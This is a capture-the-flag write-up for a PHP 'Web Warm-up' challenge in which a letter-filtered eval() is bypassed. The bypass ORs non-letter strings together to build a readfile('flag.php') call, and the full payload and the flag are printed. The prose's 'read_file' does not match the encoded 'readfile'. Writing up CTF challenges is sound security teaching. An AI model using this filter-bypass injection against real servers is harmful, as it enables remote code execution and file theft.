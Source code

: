 # Web Warm-up

We are given a url <http://69.90.132.196:5003/?view-source> which greets us with this PHP script. We want to get contents of a file `flag.php` in this task.

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
?>
```

We control a parameter `warmup` which is passed through `eval()` function, and is executed as PHP code.  
We can't use any alphabets in over payload, so we use the fact that in PHP, we can use bitwise operators on 2 strings, which will be applied to each of their characters individually. And that function names can also be strings.  

We can send this payload as `warmup`, but wriiten as some operation of 2 strings that don't use any alphabets.

```php
read_file('flag.php')
```

We can write a script to generate the payload (`gen.py`) which generates  

```php
("2%!$&),%"|"@@@@@@@@")("&,!@$0(0"|"@@@'*@@@");
```

and use it to get the flag
`ASIS{w4rm_up_y0ur_br4in}`
